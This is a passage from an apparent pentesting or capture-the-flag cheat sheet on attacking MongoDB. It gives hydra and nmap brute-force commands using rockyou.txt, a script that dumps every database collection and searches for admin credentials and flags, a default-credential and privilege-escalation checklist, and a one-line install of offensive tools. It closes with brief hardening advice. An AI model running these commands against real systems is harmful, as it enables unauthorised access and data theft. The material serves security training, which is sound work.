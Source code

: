 ```bash
# Brute force credentials
hydra -l admin -P rockyou.txt mongodb://$TARGET

# Using nmap brute script
nmap -p 27017 --script mongodb-brute --script-args userdb=users.txt,passdb=rockyou.txt $TARGET

# Automated enumeration tool
mongoaudit --host $TARGET --port 27017
```

## Data Extraction

```javascript
// Dump all databases
show dbs
use sensitive_db
db.getCollectionNames().forEach(function(collection) {
    print("Collection: " + collection);
    db[collection].find().forEach(printjson);
});

// Look for flags or credentials
db.users.find({username: "admin"})
db.config.find({})
db.flag.find({})
```

## Security Issues

- **No authentication**: Many MongoDB instances have no authentication enabled
- **Exposed to internet**: Often found with default configuration exposing to 0.0.0.0
- **Default credentials**: admin:admin, root:root, etc.
- **Data encryption**: Often missing in default setups

## Protection Measures

- Enable authentication in mongod.conf
- Bind to localhost or specific IP only
- Use firewall rules to restrict access
- Enable SSL/TLS encryption
- Regularl update MongoDB to latest version
```

## 🚀 Quick Win Checklist
1. **Default credentials** - Try service:service, admin:admin
2. **Version exploits** - `searchsploit [service] [version]`
3. **Misconfigurations** - Anonymous access, null sessions
4. **Information leaks** - Comments, backups, .git folders
5. **Password reuse** - Creds from one service work on another
6. **Privilege escalation** - After initial access, check for SUID, sudo -l

---

## 📚 Essential Tools
```bash
# Install all at once
apt install nmap gobuster nikto hydra sqlmap smbclient enum4linux metasploit-framework
```

---
